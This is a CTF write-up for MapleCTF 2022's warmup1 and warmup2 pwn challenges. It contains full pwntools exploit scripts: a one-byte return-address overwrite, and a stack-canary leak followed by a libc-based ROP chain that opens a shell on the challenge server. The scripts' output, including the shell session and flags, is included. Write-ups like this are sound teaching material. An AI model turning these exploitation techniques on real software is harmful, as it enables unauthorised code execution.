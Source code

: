 ```yaml
---
layout: post
title: MapleCTF 2022
author: Kolja
categories: [CTF]
tags: [pwn]
---
```


## warmup1

This was a simple buffer overflow in which we overwrote one byte to return to the `win`  function. So we first needed the offset for which we can use `msf-pattern_create`:

```
$ msf-pattern_create -l 100 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

After we find the pattern, that would end up in `rip`, using `gdb` we can then use `msf-pattern_offset` to find the right offset:
```
$ msf-pattern_offset -q 0x6241396141386141 -l 100
[*] Exact match at offset 24
```

To exploit this we used `pwntools` and the following script:
```
#!/usr/bin/env python
# coding: utf-8
import sys
import time
from pwn import *

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("warmup1.ctf.maplebacon.org", 1337)
    else:
        p = process("./chal")
        #p = gdb.debug("./chal", gdbscript='break vuln')
    
    # Building our exploit:
    offset = 24
    exploit = b"A" * offset + b"\x19"
    
    # Receive until input prompt
    print("[+] Sending our exploit")
    p.send(exploit)
    # Note that if your program never ends, you will never see any output
    p.interactive()
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

Here we exploit, that we know that the last byte of the `win` functions address is `\x19` and all other bytes are equal to the address of our vulnerable function. Therefore even though `ASLR` is active for this challenge we can return to the win function. The exploitation was successful:
```
$python3 warmup1.py remote 
[+] Opening connection to warmup1.ctf.maplebacon.org on port 1337: Done
[+] Sending our exploit
[*] Switching to interactive mode
maple{buwuffer_owoverflow_UwU}
[*] Got EOF while reading in interactive
```


## warmup2

This was the second warmup challenge in this CTF. The source code of the vulnerable function looked as follows:
```
void vuln(void)

{
  long in_FS_OFFSET;
  undefined local_118 [264];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts("What\'s your name?");
  read(0,local_118,0x1337);
  printf("Hello %s!\n",local_118);
  puts("How old are you?");
  read(0,local_118,0x1337);
  printf("Wow, I\'m %s too!\n",local_118);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Note that we can read data from the stack and then have a second write to the stack. This allows us to modify the stack canary for reading data on the stack and then overwrite it again before returning. 

Essentially we first read the stack canary by overwriting data up to the value of the stack canary. It was necessary to overwrite a null byte here and therefore to modify the stack canary. Afterward, we can simply write the expected bytes to the stack canary again and use the trick from `warumup1` to return to the vulnerable function again. 

We can then leak the return address and the address of `__libc_start_main_ret` in the same way:
```
└─$ python3 warmup2.py remote
[+] Opening connection to warmup2.ctf.maplebacon.org on port 1337: Done
[...]
[+] Leaking libc address
0x7f835d7b7083
```

We can use [libc.rip](https://libc.rip/#) to find the libc version used in the challenge:
![libc_rip_screenshot](/assets/maple_ctf_libc_rip.png)

With the libc used for the challenge, we can then build a `rop chain` to drop a shell and retrieve the flag. The complete script used for the exploitation looked as follows: 

```
#!/usr/bin/env python
# coding: utf-8
import sys
import time
from pwn import *

def main(args):
    p = None

    # toggle to remote with ./pwn.py remote
    if len(args) == 2 and args[1] == "remote":
        p = remote("warmup2.ctf.maplebacon.org", 1337)
    else:
        p = process("./chal")
        #p = gdb.debug("./chal", gdbscript='break vuln')
    
    print("[+] Leaking a stack address and the canary")
    p.recvuntil(b"What's your name?\n")
    offset = 264
    exploit = b"A" * (offset-3) + b"ABCD"
    p.send(exploit)
    p.recvuntil(b"ABCD")
    leak_canary = b"\x00" + p.recv(7)
    leak_canary = int.from_bytes(leak_canary, "little")
    print(hex(leak_canary))
    leak_stack = p.recvuntil(b"!")
    leak_stack = leak_stack[:-1]
    leak_stack = int.from_bytes(leak_stack, "little")
    print(hex(leak_stack))
    p.recvline()
    exploit = b"A" * offset + p64(leak_canary) + p64(leak_stack)  + b"\xdd" 
    p.send(exploit)

    print("[+] Leaking the return address this time")
    p.recvuntil(b"What's your name?\n")
    offset = 264
    exploit = b"A" * (offset+12) + b"ABCD" 
    p.send(exploit)
    p.recvuntil(b"ABCD")
    leak_main = p.recvuntil(b"!")
    leak_main = leak_main[:-1]
    leak_main = int.from_bytes(leak_main, "little")
    print(hex(leak_main))
    p.recvline()
    exploit = b"A" * offset + p64(leak_canary) + p64(leak_stack) + b"\xdd"
    p.send(exploit)
    
    print("[+] Leaking libc address")
    p.recvuntil(b"What's your name?\n")
    offset = 264
    exploit = b"A" * (offset+28) + b"ABCD" 
    p.send(exploit)
    p.recvuntil(b"ABCD")
    leak_libc = p.recvuntil(b"!")
    leak_libc = leak_libc[:-1]
    leak_libc = int.from_bytes(leak_libc, "little")
    print(hex(leak_libc))
    p.recvline()
    
    system_offset = 0x52290 #remote
    start_main_offset = 0x24083 #remote 
    
    #system_offset = 0x45880
    #start_main_offset = 0x2381d
    return_main_offset = 0x12e2
    pop_rsi_offset = 0x1351
    pop_rdi_offset = 0x1353

    system_function = leak_libc - start_main_offset + system_offset
    rsi_gadget = leak_main - return_main_offset + pop_rsi_offset
    rdi_gadget = leak_main - return_main_offset + pop_rdi_offset
    
    binsh_string = leak_stack + 48 
    
    print("[+] Triggering exploit")
    exploit = b"A" * offset + p64(leak_canary) + p64(leak_stack) + p64(rsi_gadget) + b"\x00" * 16 +  p64(rdi_gadget) + p64(binsh_string) + p64(system_function) + b"/bin/sh\x00" * 5
    p.send(exploit)
    
    
    p.interactive()
    sys.exit(0)

if __name__ == "__main__":
        main(sys.argv)
```

Using this script it was possible to drop a shell on the remote server and retrieve the flag:

```
[+] Opening connection to warmup2.ctf.maplebacon.org on port 1337: Done
[+] Leaking a stack address and the canary
0x588e673335c8a00
0x7ffdd2df7620
[+] Leaking the return address this time
0x5559898082e2
[+] Leaking libc address
0x7f10f5d95083
[+] Triggering exploit
[*] Switching to interactive mode
How old are you?
Wow, I'm AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA too!
$ whoami
ctf
$ ls 
banner_fail
chal
challenge.sh
flag.txt
xinetd.conf
$ cat flag.txt
maple{we_have_so_much_in_common}
$  
```


